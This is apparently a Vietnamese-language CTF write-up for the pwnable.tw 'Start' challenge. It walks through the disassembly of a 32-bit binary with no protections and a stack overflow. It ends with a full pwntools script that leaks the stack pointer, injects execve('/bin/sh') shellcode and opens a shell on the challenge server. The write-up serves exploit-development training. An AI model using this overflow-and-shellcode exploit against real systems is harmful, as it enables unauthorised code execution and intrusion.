 ```yaml
---
title: Start

---
```


# Start
- Chương trình cho một file nhị phân 
- Chạy thử xem chương trình làm gì
![image](https://hackmd.io/_uploads/HkB8_8hhC.png)
- Kiểm tra checksec
![image](https://hackmd.io/_uploads/SJvxK823C.png)
- Tất cả chế độ bảo vệ đều tắt, vì đây là kiến trúc 32 bit nên các tham số được đưa vào stack trước khi syscall
- Chương trình cho ta nhập vào và kết thúc, debug để xem cách hoạt động
```
   0x08048060 <+0>:     push   esp
   0x08048061 <+1>:     push   0x804809d
   0x08048066 <+6>:     xor    eax,eax
   0x08048068 <+8>:     xor    ebx,ebx
   0x0804806a <+10>:    xor    ecx,ecx
   0x0804806c <+12>:    xor    edx,edx
   0x0804806e <+14>:    push   0x3a465443
   0x08048073 <+19>:    push   0x20656874
   0x08048078 <+24>:    push   0x20747261
   0x0804807d <+29>:    push   0x74732073
   0x08048082 <+34>:    push   0x2774654c
   0x08048087 <+39>:    mov    ecx,esp
   0x08048089 <+41>:    mov    dl,0x14
   0x0804808b <+43>:    mov    bl,0x1
   0x0804808d <+45>:    mov    al,0x4
   0x0804808f <+47>:    int    0x80
   0x08048091 <+49>:    xor    ebx,ebx
   0x08048093 <+51>:    mov    dl,0x3c
   0x08048095 <+53>:    mov    al,0x3
   0x08048097 <+55>:    int    0x80
   0x08048099 <+57>:    add    esp,0x14
   0x0804809c <+60>:    ret
 ```
 - Đầu tiên đẩy địac hỉ của exit vào stack sau đó `sys_write` để in chuỗi `Let's start the CTF:`, cuối cùng là `sys_read` 0x3c byte
 - Có lỗi bof ta có thể tận dùng để chèn shellcode vì NX bị tắt
 - Nhưng để shellcode hoạt động thành công thì cần ret đến địa chỉ chứa shellcode đó
 - Tận dụng `sys_write` để leak được esp vì `mov    ecx,esp` để in được ra esp
 - Ta cần ret về `0x08048087` để leak được esp
 - Sau đó ta gửi payload lần 2 để có thể đưa được esp + offset cần để overwrite và nhập shellcode

```python=
#!/usr/bin/python3

from pwn import *

context.os = 'linux'
context.arch = 'i386'

#p = process('./start')
p = remote('chall.pwnable.tw', 10000)

payload = b'A'*20
payload += p32(0x8048087)

shell = asm('''
	push 6845231
	push 1852400175
	xor ecx, ecx
	xor edx, edx
	mov ebx, esp
	mov al, 0xb
	int 0x80
''')

log.info(shell)

input()
p.sendafter(b'CTF:', payload)
esp = u32(p.recv(4))
log.info(hex(esp + 20))

payload = b'A'*20
payload += p32(esp + 20)
payload += shell

sleep(2)

p.sendline(payload)

p.interactive()
```
